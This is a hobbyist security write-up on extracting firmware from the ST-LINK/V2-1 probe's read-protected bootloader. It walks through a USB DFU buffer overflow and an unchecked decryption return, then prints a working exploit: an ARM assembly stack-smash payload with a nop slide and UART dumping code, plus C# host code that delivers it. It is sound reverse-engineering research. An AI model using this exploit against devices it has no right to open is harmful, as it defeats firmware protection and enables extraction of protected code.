Dumping the ST-LINK/V2-1: an exploration into buffer overflows and lack of input validation
===========================================================================================

by cyanic ([Twitter](https://twitter.com/GMMan_BZFlag)), 2020/12/23

Introduction
------------

I have recently been messing around with my Game & Watch: Super Mario Bros., which uses a STM32 MCU. As a part of trying to support others trying to get into
modding it, I purchased a few different debug probes to test out. Two of them feature an on-board ST-LINK/V2-1 (herein called ST-Link), one on a Nucleo-64
board that is detachable and can be used as an external SWD probe for any board that supports the interface, and the other on a Nucleo-32 board, which can
only debug the MCU on the same board and cannot connect to an external target. As with most things I get, I was interested in dumping a copy of the firmware
for safekeeping and study, and this extended not only to the firmware of the main MCU on the Nucleo boards, but also to the embedded ST-Link, in which itself
runs on a STM32 MCU. Two MCUs on one board—not bad.

Getting Started: Hardware Connections
-------------------------------------

On the back of the Nucleo-64, there are two banks of solder bridge pads. One side says "default", and the other side says "reserved". The user manual says
that you should not connect the reserved bank, but if you look at the schematic, you'll find that it connects the external SWD header to the ST-Link MCU's
SWD lines. So I went ahead and removed the zero-Ohm resistors from the default bank and bridged the solder bridges on the reserved bank.


On the Nucleo-32, there is a 5-pin header in the corner near the USB port that is for the ST-Link MCU SWD port. You only need to solder the header in to
have access to the ST-Link's SWD lines. Put the header on the side with the USB connector. The SWD pins are slightly misaligned from the rest of the headers,
so if you do what I did you won't be able to plug the board into a breadboard.



Getting Started: Probing SWD
----------------------------

Because I wanted to keep things as stock as possible, I didn't use one ST-Link to debug another ST-Link. Instead, I connected my J-Link EDU to the Nucleo-64.
To also not disturb the main MCU (or have it distrurb debugging of the ST-Link), I tied its NRST to GND. To connect to the ST-Link, I used the following
command for OpenOCD:

```
openocd.exe -f interface\jlink.cfg -c "adapter speed 1000; transport select swd" -f target\stm32f1x.cfg
```

Upon connection, I noticed I could not read the from the flash. This was because readout protection (RDP) was enabled on the chip, which causes the flash
controller to lock up until the power to the board is reset, preventing reads even by the internal firmware. However, RDP still allows me to read the SRAM,
which will be useful later.

```
> mdb 0x08000000 16
SWD DPIDR 0x1ba01477
Failed to read memory at 0x08000001

> mdb 0x20000000 16
0x20000000: 00 00 00 00 00 08 00 08 00 00 00 00 20 00 00 00
```

Prior Art
---------

I'm not the first to become curious about how the ST-Link works. I found two people whose explorations I found useful. The first is by
Taylor Killian<sup>[\[1\]](#ref-1)</sup>, who documented the encryption that the ST-Link uses when upgrading firmware. This offered some clues on what I
might have to do with the payload if I was to send data to the firmware update system. The writeup also detailed a key string used for the encryption,
which helped me find an open-source library<sup>[\[2\]](#ref-2)</sup> for communicating with the ST-Link's bootloader, which would become a useful reference
later. The second is by lujji<sup>[\[3\]](#ref-3)</sup>, who detailed how they extracted the ST-Link bootloader through UART, which is the approach I decided
to use later to extract the entire firmware.

Additionally, there appears to be copies of the bootloader floating around on the Internet. I took a look at this to formulate my plan. This may be considered
cheating, but the goal is to dump the firmware, not dump the firmware blind. This turned out to be of great help, as I discovered a number of vulnerabilities
that resulted in me successfully dumping the the firmware.

First Look at the Bootloader
----------------------------

For looking at the bootloader code, I used Ghidra, and loaded the bootloader binary at `0x08000000`, which is the start of internal flash on STM32 MCUs.
Next, I used SVD-Loader<sup>[\[4\]](#ref-4)</sup> and the appropriate SVD file for STM32F103xx<sup>[\[5\]](#ref-5)</sup> to prepopulate some peripheral
register names so it's easier to identify what particular functions are doing. After adding in the SRAM memory section and setting up byte-mapping for
RWDATA, I started analyzing the bootloader.

### Main function



The main function first ensures that RDP is enabled. It then checks whether a reset that was not a power-on reset occurred, and also that the ST-Link
application is installed. If either of the above are not true, it goes into bootloader mode.

### Bootloader mode function



This function performs a bit of setup for USB, then enters into what you see in the screenshot. It is responsible for the actual erasing and programming of
internal flash. However, there isn't anything related to USB communications here, so where is that code?

### USB interrupt handlers

There are a couple of interrupt handlers that handle incoming USB packets. The code operates as such:

- Copy the packet into a 32-byte buffer
- If currently idle, copy the packet into a 16-byte command buffer, and check the first byte for command type:
  - 0xf1: Return bootloader version
  - 0xf3: Perform USB DFU command
  - 0xf5: Return ST-Link mode
- If in a DFU transfer, pass control directly to the DFU command handler (packet does not contain command)

Note that the copying does not limit the number of bytes copied to the number of bytes available in the buffer. We'll find that this is a repeating theme.

### USB DFU handler

This is where the meat of the USB protocol is. The ST-Link uses a protocol reminiscent of the USB Device Firmware Upgrade protocol. It is only reminiscent
because instead of control transfers, it uses regular bulk transfer. It also uses `DFU_DNLOAD` commands similar to what is implemented for the STM32 DFU
bootloader. If you'd like more info about the USB DFU protocol, see the USB DFU specifications<sup>[\[6\]](#ref-6)</sup> and AN3156<sup>[\[7\]](#ref-7)</sup>.
We will take a look at this code later.

In addition to the standard USB DFU requests, this implementation also supports the following:
- 7: boot app
- 8: Get ST-Link electronic signature (used for reencrypting firmware payload in-transit)
- 9: Get ST-Link configuration
- 10: Get hardware version

This implementation does not support the `DFU_DETACH` and `DFU_UPLOAD` requests.

Finding Exploits
----------------

One thing I've noticed throughout looking at the code is there is very little error checking, and little input validation. Copies into buffers don't have
any length checks. This makes it ripe for buffer overflow attacks.

### DFU buffer overflow

First, let's look at the DFU code.

The command block format for DFU is as follows:
```c
struct usb_cmd_t {
    uint8_t command;
    uint8_t dfu_request; // subcmd in decompilation
    uint16_t block_num;
    uint16_t checksum;
    uint16_t length;
};
```

For `block_num`, the only significant values are zero and non-zero, as we'll see in a bit. `checksum` is the summation of all bytes in the current transfer,
and `length` is the length of the current transfer. To perform a download transfer, first you send a command block with `command=0xf3` and
`dfu_request=DFU_DNLOAD`. After that, send your data in 32-byte blocks without any additional headers. Finally, send two command blocks with `command=0xf3`
and `dfu_request=DFU_GETSTATUS`, waiting the amount of time indicated by the response of the first `DFU_GETSTATUS` invocation in between.



In the above screenshot, you can see part of the code for handling `DFU_DNLOAD` in the DFU handler. The most important things to note are `usb_dfu_incoming_buffer`
is 2048 bytes, while `length` can indicate up to 65535 bytes. Because there is no check on `length`, the handler will write as many bytes as you specify
despite it being too long for the buffer, resulting in a buffer overflow.

To start an operation associated with `DFU_DNLOAD` instead of writing into the receiving buffer, send a command block with `block_num=0` and the following
data:
```c
struct usb_dfu_op_t {
    uint8_t cmd; // dfu_op_subcmd in decompilation
    uint32_t addr; // address to do operations on
};
```

`cmd` supports a similar set of commands to what was indicated in AN3156<sup>[\[7\]](#ref-7)</sup>:

- 0x21: set write pointer (and write after receiving data)
- 0x41: erase page
- 0x51: immediately write to flash

Note that the write address is an address in memory space, not relative to the flash base. This is important. The write address you sent is also recorded
for later.

We now know how to send data to the bootloader, but what good will a buffer overflow do for us? It still doesn't let us write arbitrary memory. Well, I'll tell
you how we can take advantage of this later.

### Overwriting the Stack

With sending data to the device out of the way, let's look at how we could potentially write to arbitrary memory locations.


Recall the bootloader mode loop. When you issue `DFU_DNLOAD` command 0x21 or 0x51, the bootloader will decrypt the firmware data that it was sent and write it
to flash. Let's take a peek at the write to flash function.



From the bootloader mode function, the destination is what you set when you issued your last command. The function loops over the decrypted data
buffer, and writes 32 bits into flash at a time. Now let's go into the function that writes the flash.



The way internal flash writing on STM32F10xx works is you unlock the flash, then set the write bit in the flash control register, and write to the memory address
where the internal flash is mapped. Because we provided an address in memory space rather than relative to the base of internal flash, we have full control over
where we want to write in memory. As long as you don't specify an address in flash, the function will effectively only write bytes to memory wherever you want
without disturbing existing flash contents.

We can write into memory wherever we want, and tread on the stack, allowing us to redirect execution to SRAM where we can execute code we want.

### Skipping the Encryption

We now have everything we need to redirect execution to our own code, but before we do that, there's one last trick.

Let's take a look at the firmware decryption function:



...



The actual implementation is not important. What is important is that length check. It checks whether the length is a multiple of 16, and if not, return 1.
Now let's look at the bootloader mode loop again:


Notice something that is conspicuously missing? That's right, there's no check for the return value of the decryption function. This means if we send a
payload that does not have a length that is a multiple of 16, it will not be decrypted (and you risk writing junk into your flash). We better make sure we
know how to encrypt the data properly, right? Not quite. Look at the positioning of the incoming buffer and the decryption buffer:



They're right next to each other, with the incoming buffer before the decryption buffer! This means we can take advantage of the buffer overflow from earlier,
and write 2048 bytes for your code payload, while after 2048 bytes write your stack smashing payload, which can be loaded to anywhere on the stack.

Combining these exploits, we can load up to 4KiB of exploit code and write a portion of it to anywhere we want in the address space.

You might be wondering, since we can just overflow the buffer and spill on to the stack (bottom of stack is at 0x20001ce0) why we don't just overflow it all
the way. This is because USB state variables are below the buffers, so if we corrupt them we may not be able to reach the stack as we can only write 32 bytes
at a time.

Writing the Exploit
-------------------

Now that we know what to target, let's string together the exploit.

### Payload

For the payload, while it would be easier to set everything up if I wrote it in C, I'm running out of disk space and don't want to install more things.
So in lieu of that, I'll be using assembly and the `arm-none-eabi-gcc` toolchain from ARM<sup>[\[8\]](#ref-8)</sup>.

For the sake of simplicity, my entire exploit code will be stuck into the decryption buffer, while the receiving buffer will just have the return
address to jump to the exploit over and over again. One issue with creating an exploit is with how the loop for writing to flash works:


And inside the callee function,

```
        080019ee 70  b5           push       { r4, r5, r6, lr }
...
        08001a36 70  bd           pop        { r4, r5, r6, pc }
```

We have to ensure that `r6 < r5` when the function returns, otherwise the loop will exit and won't be able to write our own address to where `lr` is store
on the stack. For this, instead of only having our address over and over again, we'll alternate a high address to try to not break out of the loop, and
target `lr` as close as possible.

Let's start our code. I'm not great with assembler directives, so this may not be optimal. First, we want to set up our return addresses:
```
.thumb
.section .text

.align 4
.rept 0x180
	.word	0x70000000
	.word	0x20000f81
.endr
```

This assembles into 12 null bytes and the two addresses repeated for about 3KB, which will put subsequent bytes into the decryption area.

Next, let's make a nop slide that we can roughly point to:
```
.rept 0x40
	nop
.endr
```

After this, set up USART2. We only need TX, because we're not receiving any data on RX.
```
main:
	@ Enable UART clock
	ldr	r0, =0x4002101c
	ldr	r1, [r0]
	ldr	r2, =0x00020000
	orr	r1, r1, r2
	str	r1, [r0]

	@ Set UART GPIO
	ldr	r0, =0x40010800	@ GPIO port A registers
	ldr	r2, [r0]
	ldr	r3, =0x00000f00
	bic	r2, r2, r3
	ldr	r3, =0xb00
	orr	r2, r2, r3
	str	r2, [r0]

	@ Set up USART2
	ldr	r0, =0x40004400	@ USART2 registers
	ldr	r1, =0x0138	@ 115200 baud @ 36MHz
	str	r1, [r0, #0x08]	@ Set baud rate
	ldr	r1, =0x2008
	str	r1, [r0, #0x0c]
```

Then, send a start sequence that the host program can use to detect start of data:
```
	@ Send data
	ldr	r1, ='s'
	bl	send_byte
	ldr	r1, ='t'
	bl	send_byte
	ldr	r1, ='a'
	bl	send_byte
	ldr	r1, ='r'
	bl	send_byte
	ldr	r1, ='t'
	bl	send_byte
```

`send_byte` looks like this:
```
send_byte:
	str	r1, [r0, #0x04]
1:
	ldr	r1, [r0, #0x00]
	lsl	r1, r1, #0x18
	bpl	1b
	bx	lr
```

We'll read the flash and output it one byte at a time over TX:
```
	ldr	r3, =0x08000000
	ldr	r4, =0x08020000
1:
	ldrb	r1, [r3]
	bl	send_byte
	add	r3, r3, #1
	cmp	r3, r4
	bne	1b
```

And lastly, enter an infinite loop when we're done:
```
	b	.
```

At the end, we'll add a few bytes to make sure the payload does not have a length that is a multiple of 16:
```
trailer:
	.short	0xff
	b	.
```

Assemble the code, and we have our exploit.

### Host application

On the host side, I'll be using .NET Core with Devices.Net<sup>[\[9\]](#ref-9)</sup>.

ST's drivers use WinUSB, which Devices.Net has support for. This makes things easier because we don't have to replace the drivers with one that's
compatible. Let's set up our device filters.

```cs
DeviceManager.Current.DeviceFactories.Add(new WindowsUsbDeviceFactory(null, null));
deviceFilters = new List<FilterDeviceDefinition>
{
    // ST-Link/V2-1
    new FilterDeviceDefinition { DeviceType = DeviceType.Usb, VendorId = 0x0483, ProductId = 0x374b },
    // ST-Link/V2-1 bootloader
    new FilterDeviceDefinition { DeviceType = DeviceType.Usb, VendorId = 0x0483, ProductId = 0x3748 }
};
```

Note there are two devices we're looking for: the ST-Link in operation mode, and the ST-Link in bootloader mode. Because we'll have to obtain the device
a few times, let's make a function for that:

```cs
static async Task<UsbDevice> GetDevice()
{
    var devices = await DeviceManager.Current.GetDevicesAsync(deviceFilters);
    if (devices.Count != 1) throw new Exception("No devices or more than 1 device");
    var device = devices[0] as UsbDevice;
    if (device == null) throw new Exception("Device is not USB?");
    await device.InitializeAsync();
    return device;
}
```

Let's check if the ST-Link is in bootloader mode, and if not, switch it to bootloader mode. Looking at libstlinkloader<sup>[\[2\]](#ref-2)</sup>, I wasn't
able to easily find how to switch to bootloader mode, so I did a capture with Wireshark and found sending `0xf9 0x01` will cause the ST-Link to reboot
into bootloader mode.

```cs
using (var device = await GetDevice())
{
    // Get mode
    var readResult = await device.WriteAndReadAsync(MakeSimpleCommand(0xf5));
    ushort result = (ushort)(readResult.Data[0] | (readResult.Data[1] << 8));

    if (result < 0x200)
    {
        // Go to bootloader mode
        await device.WriteAsync(MakeSimpleCommand(0xf9, 0x01));
    }
}
```

`MakeSimpleCommand()` is a function that pads out a command to 16 bytes because that is what is expected (although as you've seen in the bootloader code,
it probably doesn't care). The bootloader sets `0x200` (through addition) in the return value to indicate it's in bootloader mode, so if that isn't present,
we need to reboot into bootloader.

Next, because I want to receive the flash contents through UART, let's set up a serial port.

```cs
// Open serial
using var serial = new SerialPort("COM3", 115200, Parity.None, 8, StopBits.One);
serial.Open();
```

Also wait a bit before we reopen the device so it has time to reconnect. Now, let's write the code to send our payload:
```cs
await Task.Delay(1000);

using (var device = await GetDevice())
{
    byte[] payload = File.ReadAllBytes(@"dump_rom\payload.bin");
    await DfuSetAddress(device, 0x20001c9c);
    await DownloadData(device, payload, 1);
}
```

Now that the payload is running, let's receive it over UART:
```cs
serial.ReadTo("start");

byte[] firmware = new byte[0x20000];
int read = 0;
while (read < firmware.Length)
{
    read += serial.Read(firmware, read, firmware.Length - read);
}
File.WriteAllBytes("firmware.bin", firmware);
```

Along with a couple of function to generate the DFU command packets, that's all we need for receiving the flash dump.

Carrying Out the Exploit
------------------------

### Connecting UART

Before we run the exploit, we need to connect the UART TX pin. On a Nucleo-64, this is easy, as the UART port is exposed on a header on the ST-Link part
of the board. Locate the UART port, and connect your UART adapter's RX to the TX pin on the Nucleo.



On a Nucleo-32, it is more difficult, because the UART port is not exposed. Instead, you will have to directly solder to the upper left pad of the pads
surrounding the MCU when the USB port is at the top. Connect this to your adapter's RX.



### Finding the ideal write address

This part was some trial and error, some luck, and some cheating based on the firmware that I had. Initially I picked a random address close to the bottom
of stack, and observed what part was overwritten. Put it close enough to the bottom of the stack, and the bootloader works as normal, while putting it
earlier, it hard faults. Eventually, instead of guessing, I assumed that the copy of the bootloader I have is the same as what's installed on the ST-Link,
and looked at the potential return addresses on the stack. After finding the return to the writing loop, I tried that address, and after a couple of
adjustments, successfully made the code jump into my payload. The addresses in the code were what was successful for me. The alternating addresses and
nop slide weren't necessary in this case, but could be useful if the bootloader was unknown.

### Aside: hard fault handler
During trial and error, I eventually realized that the registers and stack pointer I have inside the handler were not the same as when the crash occurred.
Instead, a set of registers were pushed to the stack. This article from Interrupt<sup>[\[10\]](#ref-10)</sup> gave me a useful overview of what was pushed
to stack. Ultimately, I did not need to look into this much further after I assumed the firmware I have was the same as the one on the ST-Link.

### Running the exploit

Now, after all that work, all I had to do was to plug in the ST-Link and my UART adapter, run the program, and after a minute, get the full internal flash
as a file.

### Next steps

To make it possible to debug the ST-Link itself, I patched the firmware to nop out the call to lock the flash, then unlocked the chip (therefore erasing
the internal flash), and programmed back the modified firmware image. I now have a debuggable ST-Link that still retained its original firmware. Even
after updating the ST-Link, it was still unlocked because the locking is performed by the bootloader, and the current ST-Link upgrade packages do not
ship with new bootloaders (probably to avoid it being decoded and flashed on to clone devices).

Conclusion
----------

Through ST's sloppy coding practices and the availablility of reference bootloader, I was able to extract the firmware of a ST-LINK/V2-1 in full. The
exploits leveraged were buffer overflow, lack of checking for return codes, and lack of input validation. As usual, the way to fix these issues is to
fully validate any input, to not make any assumptions, and to always check what your functions return. You never know who's on the other end trying
to exfiltrate your data.

References
----------
- <a name="ref-1"></a>\[1\]: Taylor Killian: Retrieving ST-Link/V2 Firmware from Update Utility http://www.taylorkillian.com/2013/01/retrieving-st-linkv2-firmware-from.html
